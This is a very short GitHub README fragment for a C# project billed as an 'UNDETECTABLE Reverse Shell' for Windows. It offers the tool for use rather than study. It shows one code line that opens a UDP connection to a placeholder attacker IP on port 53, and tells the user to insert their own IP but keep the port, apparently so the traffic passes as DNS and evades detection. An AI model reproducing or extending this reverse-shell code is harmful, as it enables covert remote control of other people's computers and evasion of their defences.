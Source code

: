 # reverse-shell-csharp
UNDETECTABLE Reverse Shell with C# by Windows!
<br><br><br>
<pre>udpClient.Connect("111.111.1.111", 53); // Write your ip but don't change the port!
